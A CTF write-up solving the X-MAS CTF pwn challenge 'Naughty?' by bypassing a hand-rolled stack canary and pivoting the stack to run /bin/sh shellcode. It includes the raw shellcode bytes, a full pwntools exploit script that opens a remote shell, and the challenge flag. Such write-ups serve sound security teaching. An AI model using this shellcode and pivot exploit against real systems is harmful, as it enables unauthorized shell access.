

Naughty?
========

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n))
-------------------------------------------------------------

Challenge Description
---------------------

```
You haven't been naughty, have you?
```

Process
-------

I started off as I normally do, by running `checksec` on the `./chall` binary:


Cool, no stack canary, an executable stack, and no address randomization within the program itself. 

Next, I threw the executable into BinaryNinja and went straight for the `main()` function:



From the looks of it, it seems that we have to 'Tell Santa' what we want for XMAS, then there is an `fgets()` call reading a maximum of `0x47` (71) bytes from `stdin` into `var_38`. 

As displayed in the variable listing at the top, `var_38` starts at offset `-0x38` on the stack, while the next variable listed is `var_a` at offset `-0xa`. This is a bit strange because looking at the decompilation of `main()`, `var_a` does not seem to be refereneced anywhere. 

To get a better idea of what was happening, I switched to just the Disassembly Graph view:


From this view, it seemed as if the challenge, while having none enforced by the compiler, implemented its own sort of stack canary by checking the two bytes before the base pointer `rbp` and comparing them to a previously set value, `0xe4ff`. 

This doesn't really seem to be an issue for exploitation though since we know exactly what we need to set those bytes to for the program to not automatically fail. 

At this point, it seems like we can imagine a payload consisting of `0x38 - 0xa = 0x2e` (46) filler bytes, little endian `0xe4ff`, 8 filler bytes to overwrite `rbp`, and then the code we want to run. 

However, we can only input `0x47` bytes via the `fgets()` call. This leaves us with `0x47 - 0x38 = 0xf` (15) bytes of code. Constructing a `/bin/sh` return oriented programming (ROP) chain or even shellcode would be extremely difficult or impossible in just 15 bytes. 

If only there were a way to put the shellcode in `var_38` and have a small (< 15 bytes) ROP chain to jump back to `var_38` to execute...

As it turns out, this is completely doable and even has a name. This method is commonly referred to as a 'stack pivot'. 

After [reading up on stack pivoting](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop/#stack-pivoting), I began to write some exploit code using [pwntools](https://github.com/Gallopsled/pwntools):

```python
from pwn import *

shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

payload = shellcode + b'A'*(0x2e-len(shellcode)) + b'\xff\xe4BBBBBBBB'
```

Here, I am just inserting some `/bin/sh` [shellcode](https://www.exploit-db.com/exploits/42179), filling up `var_38` with a bunch of 'A' characters, setting `var_a` to `0xe4ff`, and inserting 8 'B's to overwrite the `rbp`. 

This payload will not work in its current state as we need to insert a ROP chain at the end to jump back to the beginning of `var_38`. 

As [the article linked earlier](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop/#stack-pivoting) states, the first order of business is to find a `jmp esp/rsp` instruction in the program. Using `ROPGadget`, one can obtain an address to use for the first step of the ROP chain:


Here I will use address of `jmp rsp`: `0x40067f` as the next piece of the payload.

At this point, the length of our payload is: `0x2e + 0xa + 0x8 = 0x40` (64) bytes. The final step would be to subtract `0x40` from the stack pointer, `rsp`, setting it to the address of `var_38`, then jumping to the new `rsp`.

So, the final piece of the payload is going to be the following instructions, assembled: 

```assembly
sub rsp, 0x40
jmp rsp
```

After combining everything above, the payload should look something like this:

```
___________________________________________________________
|  /bin/sh shellcode  |  filler 'A's  |  0xe4ff 'canary'  |  
-----------------------------------------------------------
|  filler rbp  | 'jmp rsp' addr  |  sub/jmp rsp shellcode |
----------------------------------------------------------- 
```

We can now modify the previous [pwntools](https://github.com/Gallopsled/pwntools) script to send the full payload, jumping to the shellcode and getting a shell on the remote machine:

```python
from pwn import *

first_output = 'Tell Santa what you want for XMAS\n'
# /bin/sh shellcode
shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

p = remote('challs.xmas.htsp.ro',2000)
binary = ELF('./chall')
context.binary = binary # for asm()
p.recvuntil(first_output) # wait for input prompt

sub_esp_jmp = asm('sub rsp, 0x40;jmp rsp') # assemble jmp var_38 shellcode
jmp_rsp = 0x40067f # address of 'jmp rsp' from ROPGadget

payload = shellcode +  b'A'*(0x2e-len(shellcode)) + b'\xff\xe4BBBBBBBB' + p64(jmp_rsp) + sub_esp_jmp

p.sendline(payload) # send payload
p.interactive() # allow user to execute remote commands
```

Running the above script, we get a shell where the flag is quickly found at `/home/ctf/flag.txt`:


Flag: `X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}`